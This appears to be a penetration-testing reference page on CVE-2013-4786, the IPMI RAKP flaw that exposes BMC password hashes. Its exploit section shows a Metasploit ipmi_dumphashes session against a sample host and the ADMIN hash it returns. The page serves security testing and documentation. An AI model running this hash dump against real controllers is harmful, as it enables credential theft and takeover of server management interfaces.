 icon:fontawesome/solid/unlock-keyhole

# CVE-2013-4786

CVE-2013-4786 - IPMI Password hash retrieval

The IPMI 2.0 specification supports RMCP+ Authenticated Key-Exchange Protocol (RAKP) authentication, which allows remote attackers to obtain password hashes and conduct offline password guessing attacks by obtaining the HMAC from a RAKP message 2 response from a BMC.

## Exploit

```bash
msf5 use auxiliary/scanner/ipmi/ipmi_dumphashes
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.10.12
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 10.10.10.12:623 - IPMI - Hash found: ADMIN:84eaac57180000006c2ad3df7e0a746f542cf3232b7a3b0ee20f4eff[...]00140541444d494e:361d72b683182e7adf0478d7113f30443988b8d0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## References

- [Tenable.com](https://www.tenable.com/cve/CVE-2013-4786)
- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2013-4786)
